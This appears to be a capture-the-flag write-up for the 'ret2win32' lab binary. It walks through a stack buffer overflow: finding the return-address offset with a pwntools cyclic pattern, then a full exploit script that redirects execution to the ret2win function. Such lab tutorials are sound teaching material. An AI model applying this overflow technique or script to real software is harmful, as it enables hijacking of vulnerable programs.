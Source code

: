 If we run again, we'll get an interesting error: "Invalid address at 0x41414141" error. Huh?? Seems like it tries to go to an address called 0x41414141??
Cool if we just controlled the address the program tries to go to, we can make it go to "ret2win" and we would've pwned the program. Now we'll be using a pattern generator from pwntools, to find out where this return address is at.

```python
Python 3.8.5 (default, Jul 28 2020, 12:59:40) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>>
>>> pattern = cyclic_gen()
>>> pattern.get(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

If we copy the pattern, we'll be able to see where exactly the return addr is at.
We follow the same process from before, and ni each step through starting from pwn+98. At return we'll see: 
<0x6161616c>
The 616161 is a, and the 6c is an l.

Great so that means we add 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa, characters and can put in our address to return to. A few things to note about the address is, that:

1. The address will need to be passed in little-endian formatting
2. The address can be any address you see in gdb, that is in the .text segment, as these addresses are static

The smart thing about Return-Oriented-Programming, is exactly that one doesn't have to worry about security measures
such as ASLR, because you return to already written code that has a static address. 


**Conclusion: You should now have a lot of knowledge important for the further challenges. We used a "shit ton" of useless characters to overwrite the stack till our return address, at our return address we put an adress we want to return to. We convert the address, since the program is using little endian.**


Exploit:

```python
from pwn import *

elfPath="./ret2win32" #Path to binary
context.arch="i386"

gdbscript= """
continue
"""

terminalSetting = ['gnome-terminal', '-e'] #Ubuntu terminal=gnome-terminal
context.clear(terminal=terminalSetting)

io = pwnlib.gdb.debug(elfPath, gdbscript = gdbscript)

point=cyclic_find(b"laaa", endian="little")

ret2win=p32(0x804862c)

def main():
    print(io.recvuntil("> "))
    print(io.send(b"A"*point+ret2win)) #Sends 44 A's, and then the address to the ret2win function
    io.interactive() #Interactive state

```